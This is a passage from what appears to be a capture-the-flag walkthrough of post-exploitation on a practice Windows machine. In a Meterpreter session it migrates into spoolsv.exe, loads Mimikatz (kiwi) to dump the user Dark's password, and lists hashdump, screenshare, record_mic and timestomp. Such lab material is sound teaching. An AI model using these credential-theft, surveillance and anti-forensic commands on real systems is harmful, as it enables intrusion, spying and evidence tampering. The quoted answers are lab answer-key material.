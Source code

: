 Migrate to this process now with the command `migrate -N PROCESS_NAME`
```
migrate -N spoolsv.exe
```

Let's check what user we are now with the command `getuid`. What user is listed?
```
NT AUTHORITY\SYSTEM
```

Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)
```
load kiwi
```

Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`. 
```
creds_all
```

Which command allows up to retrieve all credentials?
```
Password01!
```

Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

#### Post Exploitation

Before we start our post-exploitation, let's revisit the help menu one last time in the meterpreter shell. We'll answer the following questions using that menu.


What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)
```
hashdump
```

While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?
```
screenshare
```

How about if we wanted to record from a microphone attached to the system?
```
record_mic
```

To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.
```
timestomp
```
